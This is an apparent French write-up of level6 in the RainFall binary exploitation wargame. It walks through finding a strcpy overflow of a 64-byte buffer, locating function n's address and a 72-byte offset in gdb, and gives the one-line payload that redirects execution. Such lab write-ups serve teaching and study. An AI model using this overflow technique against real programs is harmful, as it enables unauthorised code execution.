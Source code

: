 # Solution

```
./level6 "$(python -c 'print("A" * 72 + "\x54\x84\x04\x08")')"
```

# Explication du level

Dans ce niveau il y a plusieur point que l'on peut remarquer

- la fonction n affiche le mot de passe mais n'est jamais apeler
- dst est malloc avec 0x40 ce qui correspond a 64 en decimal 
- strcpy est appeler avec dst pour copier la premiere str envoyer en argument 


On peu en deduire que si l'on met une chaine de plus de 64 caractere cela va depasser la memoire et ecrasé les element de la stack adjacent.
Il suffit donc de faire comme pour le level2 un overflow exploit

--------------------------------------
Adresse de n :

level6@RainFall:~$ gdb ./level6 
(gdb) p &n
$1 = (<text variable, no debug info> *) 0x8048454 <n>

---------------------------------------

Offset de l'adresse de retour :

D'abord generons une string qui ne se repete pas sur https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html

str : Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Ensuite on peu sois utiliser peda sois passer par gdb comme nous avons deja utiliser peda, nious allons faire avec gdb cette fois ci :

```
level6@RainFall:~$ gdb ./level6
(gdb) b main
Breakpoint 1 at 0x804847f
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level6/level6 str : Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Breakpoint 1, 0x0804847f in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()

##Apres l'overflow :
(gdb) info register
eax            0x41346341	1093952321
ecx            0xbffff900	-1073743616
edx            0x804a060	134520928
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff69c	0xbffff69c
ebp            0xbffff6c8	0xbffff6c8
esi            0x0	0
edi            0x0	0
eip            0x41346341	0x41346341
eflags         0x210202	[ IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

Comme $eip est = 41346341 si on converti cela en caractere lisible cela donne A4cA on inverse et cela donne Ac4A qui apparait au 72 char de notre str

--------------------------------------------

Creation de l'exploit :

offset : 72
adresse de n : 0x8048454

./level6 "$(python -c 'print("A" * 72 + "\x54\x84\x04\x08")')"
